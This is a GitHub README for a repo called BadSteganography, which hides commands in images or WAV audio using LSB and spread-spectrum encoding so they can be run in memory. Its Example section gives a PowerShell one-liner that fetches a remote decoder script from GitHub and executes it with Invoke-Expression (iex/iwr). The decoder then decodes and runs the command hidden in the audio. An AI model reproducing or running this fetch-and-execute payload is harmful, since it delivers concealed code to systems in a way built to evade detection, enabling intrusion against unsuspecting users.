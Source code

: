 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content
```
